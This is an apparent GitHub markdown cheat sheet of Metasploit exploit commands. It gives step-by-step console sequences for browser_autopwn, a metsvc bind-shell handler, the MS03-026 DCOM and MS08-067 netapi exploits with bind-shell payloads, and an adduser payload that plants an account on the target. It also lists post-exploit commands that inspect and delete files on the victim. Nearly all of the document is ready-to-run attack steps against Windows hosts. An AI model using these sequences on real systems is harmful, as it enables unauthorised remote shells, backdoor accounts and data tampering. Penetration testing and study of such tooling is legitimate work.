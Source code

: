 Metasploit Exploits cheats
==========================

#### Usage

	$ msfconsole     # starts metasploit
	$ msfupdate      # updates metasploit
	run + two tabs   # lists all meterpreter scripts


#### browser autopwn

Victim needs to visit [IP_ADDRESS]

	msf> use auxiliary/server/browser_autopwn
	msf> set LHOST [LOCALHOST]
	msf> set SRVPORT 80
	msf> set URIPATH /
	msf> run


#### metsvc exploit

Less noisy than persistance exploit

	msf> use exploit/multi/handler
	msf> set PAYLOAD windows/metsvc_bind_tcp
	msf> exploit

Post exploit:

	run metsvc -r     # removes the service; also remove metsrv.dll, metsvc-server.exe, metsvc.exe 


#### ms03 exploit

did not work on service pack 3

	msf> use exploit/windows/dcerpc/ms03_026_dcom
	msf> set RHOST [TARGET]
	msf> set PAYLOAD windows/shell_bind_tcp #binds shell on victims tcp port
	msf> show options
	msf> exploit


#### netapi exploit

Works almost all of the time on XP
Opens shell session

	msf> use exploit/windows/smb/ms08_067_netapi 
	msf> set RHOST [TARGET]
	msf> set PAYLOAD windows/shell_bind_tcp
	msf> set LPORT 6000
	msf> show options
	msf> exploit

Post exploit:

	netstat -n    # run on victim will show the connection
	dir           # lists all files on directory
	del           # delete a file on the victim


#### netapi exploit - adduser

works on XP almost all of the time

	msf> use exploit/windows/smb/ms08_067_netapi 
	msf> set RHOST [TARGET]
	msf> set PAYLOAD windows/adduser
	msf> set LPORT 6000
	msf> set USER [USERNAME]
	msf> set PASS [PASSWORD]
	msf> show options
	msf> exploit
